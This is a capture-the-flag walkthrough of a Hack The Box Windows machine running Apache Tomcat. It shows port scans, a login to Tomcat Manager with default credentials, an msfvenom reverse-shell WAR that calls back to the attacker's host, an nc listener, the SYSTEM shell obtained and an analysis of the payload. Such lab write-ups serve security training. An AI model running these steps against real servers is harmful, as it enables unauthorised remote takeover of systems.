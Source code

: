 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 10.10.10.95
```
- Only port **8080** is open.

### 🔍 Version Detection
```bash
nmap -sV -sC -p 8080 -oA nmap/initial 10.10.10.95
```
- Port 8080 runs [Tomcat](HTTP): `Apache Tomcat/Coyote JSP engine 1.1`.

---

## 🌐 [Web Discovery](HTTP)

### 🔑 Tomcat Manager Login
- Navigate to `http://10.10.10.95:8080`
- Default credentials work:
  ```text
  Username: tomcat
  Password: s3cret
  ```

- This provides access to the **Tomcat Manager Application**, including a WAR deployment section.

---

## 💣 Exploitation via WAR Upload

### ⚙️ Create Malicious WAR Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.XX LPORT=9002 -f war > rev_shell.war
```

### 🧪 Discover JSP Payload Name
```bash
jar -tf rev_shell.war
# Output includes: ppaejmsg.jsp
```

### 🛜 Serve WAR File
Upload via Tomcat Manager at:  
➡️ `http://10.10.10.95:8080/manager/html`

### 📡 Trigger Reverse Shell
On attacker:
```bash
nc -lnvp 9002
```

On target:
```bash
curl http://10.10.10.95:8080/rev_shell/ppaejmsg.jsp
```

Shell received:
```bash
whoami
# nt authority\system
```

---

## 🏁 Flags

```bash
cd C:\Users\Administrator\Desktop\flags
type 2\ for\ the\ price\ of\ 1.txt
```

**🎯 Output:**
```
user.txt: 7004dbce...
root.txt: 04a8b36e...
```

---

## 🔍 Beyond Root – War File Analysis

### 📦 WAR = ZIP
```bash
unzip -l rev_shell.war
```

### 🧾 Key Contents:
- `WEB-INF/web.xml`: servlet definition
- `ppaejmsg.jsp`: main reverse shell payload

### 🧠 JSP Breakdown:
- Hex-encoded executable written to disk
- Executed via `Runtime.getRuntime().exec()`
- On Linux: chmod +x before execution
- On Windows: just run `.exe`

### 🔄 Reverse Engineering the Binary
```bash
cat hex | xxd -r -p > rev_shell.exe
```

### 🧪 Test via Wine + tcpdump
```bash
wine rev_shell.exe
tcpdump -i any port 9002
```

Confirmed reverse shell behavior with **exponential backoff retry pattern**.

---

## ✅ Summary

| Phase               | Achievement                              |
|--------------------|-------------------------------------------|
| Recon              | Found Tomcat on port 8080                 |
| Exploit            | Gained SYSTEM shell via WAR upload        |
| User Flag          | Retrieved from Administrator desktop      |
| Root Flag          | Included in same text file as user        |
| Analysis           | Decompiled and verified WAR structure     |
